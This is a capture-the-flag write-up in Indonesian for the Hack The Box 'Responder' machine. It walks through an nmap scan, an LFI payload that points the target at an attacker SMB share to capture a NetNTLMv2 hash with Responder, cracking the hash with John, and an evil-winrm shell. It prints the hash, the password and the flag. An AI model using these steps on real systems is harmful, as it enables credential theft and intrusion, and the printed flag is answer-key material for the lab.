

Responder adalah mesin Tier 1 dari seri Starting Point pada platform Hack The Box. Selama pengerjaan, saya menggunakan beberapa tools untuk menyelesaikan mesin ini. Tools yang saya gunakan diantaranya: `Responder`, `John the Ripper`, dan `evil-winrm`.

## Reconnaissance

Tahapan pertama yang dapat kita lakukan adalah melakukan enumerate terhadap open port dan service yang berjalan dengan menggunakan tools `nmap`.

```bash
└─$ sudo nmap -sV -sC -p- -T4 10.129.7.212
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 17:24 WIB
Nmap scan report for 10.129.7.212
Host is up (0.28s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 353.06 seconds
```

### Analysis of Scan Result

- Pada port `80` yang menjalankan service `Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)` . Dapat disimpulkan mesin ini menjalankan web server menggunakan `Apache` dengan OS `Windows`. Untuk bahasa pemrograman yang digunakan yaitu `PHP 8.1.1`
- Port `5985` menjalankan service `Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)` yang merupakan Windows Remote Management (WinRM) digunakan untuk mengelola dan mengakses sistem Windows dari jaringan.
- Port `7680` menjalankan service `tcpwrapped` yang digunakan untuk Windows Update Delivery Optimization(DO).

### Adding Domain to Hosts

Ketika kita membuka website nya, user akan otomatis di redirect ke suatu domain. Untuk melihat nya kita bisa menggunakan `curl`.

```bash
└─$ curl 10.129.7.212                                                                                 
<meta http-equiv="refresh" content="0;url=http://unika.htb/">
```

Kita harus menambahkan domain `unika.htb` ke dalam hosts file kita, agar website dapat diakses menggunakan domain tersebut.

```bash
└─$ echo "10.129.7.212 unika.htb" | sudo tee -a /etc/hosts
10.129.7.212 unika.htb
```

Setelah ditambahkan ke hosts file, kita bisa langsung mengakses website tersebut menggunakan domain `unika.htb` 


## Foothold

Ketika melakukan explorasi pada website, saya tidak menemukan apa-apa. Hingga pada saat opsi menu untuk merubah bahasa, terdapat celah keamanan `Local File Inclusion (LFI)`  dikarenakan input dari user tidak disanitasi.


Dikarenakan mesin ini berjalan di operasi Windows, mari kita coba untuk mengakses hosts file yang ada di windows.



Yup, kita bisa melihat isi hosts file pada mesin tersebut. Sekarang kita tahu bahwa website ini memiliki kerentanan `LFI` . Pada Windows, SMB adalah protokol berbagi file jaringan yang memungkinkan perangkat berbagi file, printer, dan sumber daya lain di jaringan. Windows secara default akan mencoba mengautentikasi ke server SMB yang diakses.

### **Windows New Technology LAN Manager (NTLM)**

> Windows New Technology LAN Manager (NTLM) is a suite of security protocols offered by Microsoft to authenticate users’ identity and protect the integrity and confidentiality of their activity. At its core, NTLM is a single sign on (SSO) tool that relies on a challenge-response protocol to confirm the user without requiring them to submit a password.

https://www.crowdstrike.com/en-us/cybersecurity-101/identity-protection/windows-ntlm/
> 

Ketika aplikasi web yang rentan menjalankan file inclusion, penyerang dapat menyertakan jalur file yang mengarah ke protokol SMB di server penyerang. Contoh payload:

```bash
\\attacker-ip\share
```

Selama proses autentikasi, Windows mengirimkan hash `NetNTLMv2` yang dapat ditangkap oleh penyerang menggunakan tools seperti **Responder**. Hash ini kemudian dapat digunakan untuk serangan **hash cracking.**

### Responder

Sekarang kita coba menggunakan tools `Responder` untuk mencoba URL SMB agar kita dapat capture hash dari target mesin. Untuk instalasi tools Responder dapat melakukan clone repository berikut.

```bash
git clone https://github.com/lgandx/Responder
```

Pastikan pada konfigurasi `Responder.conf` status `SMB = On`. Sekarang kita bisa coba jalankan tool Responder menggunakan python3 dengan flag -I untuk melakukan listen ke interface tujuan. Di case ini saya menggunakan interface `tun0`.

```bash
sudo python3 Responder.py -I tun0
```

Namun disini saya menggunakan Kali Linux, yang sudah terinstall Responder.

```bash
sudo responder -I tun0
```

Sekarang kita harus masukan SMB ke dalam parameter URL pada website, seperti ini:

```bash
http://unika.htb/index.php?page=//10.10.14.9/filesus
```

Catatan: IP tersebut merupakan IP dari tun0.

Setelah mengirimkan payload, kita akan mendapatkan error seperti ini.


Kembali ke Responder, kita sudah mendapatkan hash yang nantinya akan kita crack menggunakan `John the Ripper` untuk mendapatkan password Administrator.

### Cracking Hash with John

Sekarang kita bisa simpan hash nya kedalam file `hash.txt`

```bash
└─$ echo "Administrator::RESPONDER:e47a455b8ed32f10:B8E7CE0DC0F931F87F333CAE4A728FBD:010100000000000000FCAA8D5A7ADB018488E42E06D622F50000000002000800440032003000360001001E00570049004E002D0044004E004700460058003800480036004B005900530004003400570049004E002D0044004E004700460058003800480036004B00590053002E0044003200300036002E004C004F00430041004C000300140044003200300036002E004C004F00430041004C000500140044003200300036002E004C004F00430041004C000700080000FCAA8D5A7ADB010600040002000000080030003000000000000000010000000020000064BF3A3CE655552E658293C75BAE7C2B36CA85C02E2F7C554AA2A620958000C20A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0039000000000000000000" > hash.txt
```

Kita bisa menggunakan command berikut untuk melakukan hash cracking.

```bash
└─$ john hash.txt -w=/usr/share/wordlists/rockyou.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2025-02-08 19:02) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

### Accessing Shell using evil-winrm

Kita mendapatkan sebuah credentials `administrator:badminton` . Sekarang kita bisa menggunakan service `WinRM` untuk melakukan remote. Disini saya menggunakan tools `evil-winrm`.

```bash
└─$ evil-winrm -i 10.129.7.212 -u administrator -p badminton
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Dan kita telah berhasil mendapatkan shell dari mesin tersebut.

## Flag

Setelah melakukan eksplorasi, saya mendapatkan flagnya di:

```bash
Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
ea81b7afddd03efaa0945333ed147fac
```

## Useful Links

[SMB Relay Attacks and How to Prevent Them in Active Directory](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)